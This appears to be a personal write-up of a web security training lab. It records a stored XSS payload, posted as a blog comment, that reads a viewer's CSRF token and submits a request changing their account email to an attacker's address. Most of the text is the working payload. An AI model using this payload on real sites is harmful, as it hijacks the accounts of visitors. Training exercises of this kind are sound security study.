 *This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.
You can log in to your own account using the following credentials: wiener:peter*

Submitted the following payload into the comment section to solve the lab:
```html 
<!-- onloading, this script will steal their token by searching for it. it will then create a form with the token and submit the parameters in the POST request to the target URL, that is to change email-->
    <body onload="stealToken()">
        <script>
            function stealToken(){
                var token = document.getElementsByName('csrf')[0].value;

                var data = new FormData;
                data.append('csrf',token);
                data.append('email','evilman@gmail.com');


                fetch('/my-account/change-email',{
                    method: "POST",
                    mode: "no-cors",
                    body: data
                });
            }
        </script>
    </body>
    
```
![[Screenshot 2024-05-17 at 7.10.25 PM.png]]

